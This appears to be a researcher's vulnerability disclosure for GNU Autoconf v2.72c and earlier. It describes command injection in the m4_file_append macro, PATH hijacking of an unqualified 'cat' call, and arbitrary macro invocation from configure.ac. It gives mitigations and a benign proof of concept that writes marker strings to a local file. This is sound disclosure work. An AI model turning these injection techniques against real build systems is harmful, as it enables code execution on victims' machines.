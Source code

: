 # Overview 

Arbitrary Code execution can be obtained by running `/usr/bin/autoconf` when a crafted `configure.ac` exploits any of the following 3 vulnerabilities:

*  Command injection in M4sugar due to lack of input sanitization (CWE-78).
*  `cat` command being executed without absolute path in M4sugar, leaving it vulnerable to an untrusted PATH (CWE-427).
* Invocation of arbitrary m4 macros in `configure.ac`.


**Date**: 11/25/2023
**Researcher**: Ally Petitt
**Product Tested**: Autoconf v2.72c and prior (all but the 3rd bullet point were [fixed here](https://git.savannah.gnu.org/cgit/autoconf.git/commit/?id=11d8824daada20055c855f46ad7c45237c1ff455))
**Impact**: Remote code execution that leads to the loss of availability, confidentiality, and integrity of the system. In certain cases it can also lead to privilege escalation.

# Technical Details 

## M4sugar - Multiple Vulnerabilities
The `m4_file_append` macro is defined starting on line 3272 of `lib/m4sugar/m4sugar.m4`. 

```
m4_define([m4_file_append],
[m4_syscmd([cat >>$1 <<_m4eof
$2
_m4eof
])
```

This macro has 2 vulnerabilities. Proof-of-Concept examples of each will be shown in the "PoC" section to provide both clarification and an easy way to validate the issues.

1. The first vulnerability is that `cat` is called without an absolute path, leaving it prone to modification of the $PATH environmental variable. A privileged user on the system may set the $PATH to point to a directory they control containing a malicious executable called `cat`. In scenarios where `autoconf` has an SUID bit set or can otherwise be run with elevated privileges, this can lead to privilege escalation.

*Mitigation**: Replace "cat" with "/usr/bin/cat" in the definition of `m4_file_append`.

2. The arguments passed to `m4_file_append` are not sanitized before being passed into `m4_syscmd`. This means that hackers can directly insert malicious code as an argument to the macro and it will be executed when `autoconf` is ran!

*Mitigation**: If possible, implement a more secure way to append to a file that does not involve running shell commands. I wish I could provide more guidance here but I am not very proficient in m4. In the case that this is not feasible, treat `$1` and `$2` as untrusted input and sanitize them. 


## Autoconf - Invocation of Arbitrary M4 Macros 
Autoconf appears to execute m4 macros directly through the `configure.ac` file. Without any sanitization, adversaries are able invoke arbitrary macros including `syscmd` and the aforementioned vulnerable `m4_file_append`. This can lead to the execution of code upon running `autoconf`. An example will be shown in the "PoC" section below.

It is worth noting that while executing macros is part of Autoconf's functionality, I did not find evidence that the arbitrary execution of commands was an intentional part of this design. As such, the lack of restriction on the macros that can be called results in a larger attack surface that can be taken advantage of by hackers.

**Mitigation**: Enforce a whitelist of macros that are able to be executed from `configure.ac`.


# PoC

This Proof-of-Concept involves the creation of 4 files within the same directory. The contents of these files are the following (file names are commented at the top of each code block):

```
# congfigure.ac
AC_INIT([hello], [1.0])
AC_CONFIG_SRCDIR([hello.c])
AC_CONFIG_AUX_DIR([build-aux])
AC_PROG_CC

# Trigger the vulnerabilities by writing to a file called `vulns`
syscmd(echo vuln1 > vulns) # vuln1
m4_file_append(test, `echo vuln2 >> vulns`) # vuln2 and vuln3


AC_CONFIG_FILES([Makefile])
AC_OUTPUT
```

```
# Makefile.am
bin_PROGRAMS = hello
hello_SOURCES = hello.c
```

```
# hello.c
#include <stdio.h>
int main(int argc, char** argv) {
  printf("hello world!\n");
  return 0;
}
```

```
# cat
#!/bin/bash
echo vuln3 >> vulns
```

The resulting directory listing should be the following:

```
$ ls
cat  configure.ac  hello.c  Makefile.am
```

Once the files are verified to be correct, the 3 vulnerabilities can be exploited by running the command below.
```
$ export PATH=$(pwd):$PATH && autoconf
```

A new file will be created called `vulns`. Each vulnerability that was exploited wrote to this file to create the content below.
```
vuln1
vuln2
vuln3
```


Note that exploiting vulnerabilities 1 and 2 (the vulnerabilities that write "vuln1" and "vuln2" to the `vulns` file, respectively) does not require the $PATH environmental variable to be set and can simply be exploited with the below command.
```
$ autoconf --force
```

These files are included in this GitHub repository.

